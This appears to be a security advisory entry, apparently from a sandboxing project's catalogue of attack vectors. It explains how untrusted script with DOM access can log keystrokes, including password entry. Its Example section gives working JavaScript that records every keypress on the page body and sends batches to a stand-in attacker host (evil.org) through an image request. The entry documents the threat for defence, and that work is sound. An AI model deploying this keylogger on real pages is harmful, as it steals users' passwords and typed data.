 # DOM access allows keylogging #

## Effect ##
If the implementation can phone home, it can log keystrokes and send them home.
If the embedding page contains a password field, it could log the password as typ
ed even if it can't access the password's value.



## Background ##
Any DOM element is reachable from any other, and the onkeypress handler on docume
nt.body will receive all keystrokes in the current frame.  It does not receive ke
ystrokes cross frame -- not even from iframes.



## Assumptions ##
Untrusted code can access a DOM element that is a parent of a password field, and
> can add an onkeypress or onkeydown or onkeyup event handler.

Untrusted code can cause the browser to request a URL that it controls, or store
the data for retrieval by other means.



## Versions ##
All



## Example ##
```
Date.now = Date.now || function () { return (new Date).getTime(); };
var log = [];
var lastSend = Date.now();
document.body.onkeypress = function (event) {
  log.push(event.which || event.keyCode);
  if (Date.now() - lastSend > 1000) {
    (new Image()).src = 'http://evil.org?keys_logged=' + log.join();
    log = [];
    lastSend = Date.now();
  }
};
```